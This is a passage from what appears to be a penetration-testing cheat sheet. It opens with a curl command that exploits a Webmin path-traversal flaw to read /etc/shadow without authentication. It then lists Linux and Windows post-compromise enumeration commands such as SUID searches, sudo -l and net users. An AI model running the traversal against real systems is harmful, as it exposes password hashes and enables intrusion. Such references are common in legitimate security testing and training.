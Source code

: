       Test to see if webmin is running as root by grabbing /etc/shadow
      
        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`

-   Linux OS Enumeration

    -   List all SUID files  
        `find / -perm -4000 2>/dev/null`

    -   Determine the current version of Linux  
        `cat /etc/issue`

    -   Determine more information about the environment  
        `uname -a`
        
    -   List processes running  
        `ps -xaf`

    -   List the allowed (and forbidden) commands for the invoking use  
        `sudo -l`

    -   List iptables rules  
        `iptables --table nat --list  
        iptables -vL -t filter  
        iptables -vL -t nat  
        iptables -vL -t mangle  
        iptables -vL -t raw  
        iptables -vL -t security`

-   Windows OS Enumeration


    -   net config Workstation
    
    -   systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
    
    -   hostname
    
    -   net users
    
    -   ipconfig /all
    
    -   route print
    
    -   arp -A
    
    -   netstat -ano
    
    -   netsh firewall show state	
    
    -   netsh firewall show config
    
    -   schtasks /query /fo LIST /v
    
    -   tasklist /SVC
    
    -   net start
    
    -   DRIVERQUERY
    